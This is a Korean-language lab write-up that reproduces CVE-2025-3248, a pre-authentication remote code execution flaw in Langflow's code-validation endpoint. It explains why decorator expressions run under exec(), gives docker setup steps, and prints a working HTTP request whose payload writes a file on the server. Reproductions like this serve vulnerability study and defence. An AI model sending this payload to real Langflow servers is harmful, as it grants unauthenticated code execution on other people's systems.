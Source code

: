# Langflow `validate/code` API Pre-Auth Remote Code Execution (CVE-2025-3248)

## 개요 
Langflow 는 에이전트 기반 AI 워크플로우를 구축하기 위한 인기 있는 오픈소스 도구로, python 기반 웹 인퍼페이스를 통해 AI 에이전트와 파이프라인을 시작적으로 구성할 수 있도록 한다.

Langflow 1.3.0 이하 버전에서 발생하는 **원격 코드 실행(RCE)** 취약점인 CVE-2025-3248 이 존재한다.

### 참고문헌
- https://github.com/vulhub/vulhub/blob/master/langflow/CVE-2025-3248

### 취약점
- (`/api/v1/validate/code`) 엔드포인트에서 발생.

    해당 엔드포인트는 사용자로부터 제출된 Python 코드를 ast 모듈로 파싱후 exec 를 사용해 함수 정의를 실행함으로써 유효성을 검증함.
- Python 함수 정의는 decorator 인자와 defualt 인자에 포함된 표현식을 정의 시점에 실행
- 해당 인자에 악성 코드를 삽입해 exec() 과 함께 실행하여 RCE를 일으킬 수 있음.

## 환경 구성
```bash
git clone --depth 1 https://github.com/
cd vulhub/langflow/CVE-2025-3248
docker compose up -d
```
서버가 시작된 이후 `http://localhost:7860` 로 접속할 수 있다.
![](0.png)

## 취약점 재현
`/api/v1/validate/code` 엔드포인트에 악성 Python 함수 정의를 포함한 POST 요청을 보내야한다.

다음은 서버에서 임의의 파일을 열어 읽고 쓸 수 있는 예시이다.
```
POST /api/v1/validate/code HTTP/1.1
Host: localhost:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 133

{"code": "@exec(\"raise Exception(__import__('builtins').open('/tmp/hacked.txt','w').write('you hacked!'))\")\ndef foo():\n  pass"}
```
![](1.png)
![](2.png)